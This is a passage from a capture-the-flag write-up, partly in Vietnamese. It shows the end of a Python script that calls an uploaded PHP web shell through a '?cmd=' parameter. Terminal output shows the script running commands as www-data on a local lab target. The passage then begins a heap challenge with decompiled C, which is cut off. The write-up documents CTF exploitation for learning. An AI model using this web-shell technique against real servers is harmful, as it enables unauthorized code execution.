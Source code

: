 ```python
print("Date string:", date_string)
print("Timestamp:", timestamp)

urls = url + f'assets/images/_{timestamp}_{file_name}?cmd={cmd}'

print('url:', urls)

res = requests.get(urls)
print('Result:', res.text)
```

Result:
```bash
┌──(root㉿kali)-[/home/…/downloadable/metadata-checker/docker-php-helloworld/src]
└─# python '9.py' 'http://localhost:1337/' 'payload.php' '../www/html/assets/images/' 'id'
Tue, 22 Aug 2023 11:54:15 GMT
Date string: Tue, 22 Aug 2023 11:54:15 GMT
Timestamp: 1692705255
url: http://localhost:1337/assets/images/_1692705255_payload.php?cmd=id
Result: abcbcbuid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# PWN
Author: `Hoàng Việt`

## CLASS MANAGER

![](https://hackmd.io/_uploads/HJKB3Jkph.png)

Chạy chương trình hoặc nhìn tên chương trình thì đây là 1 bài heap

### Decompile program

Hàm `main`

```cpp
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 choice[2]; // [rsp+0h] [rbp-10h] BYREF

  choice[1] = __readfsqword(0x28u);
  puts("Four options to manage students in a class:");
  puts("1. Add a student to the class.");
  puts("2. Show name of a student.");
  puts("3. Delete a student.");
  puts("4. Exit.");
  fflush(_bss_start);
  while ( 1 )
  {
    printf("Enter your choice: ");
    fflush(_bss_start);
    __isoc99_scanf("%lld", choice);
    switch ( choice[0] )
    {
      case 1LL:
        AddStudent();
        break;
      case 2LL:
        ShowStudent();
        break;
      case 3LL:
        DeleteStudent();
```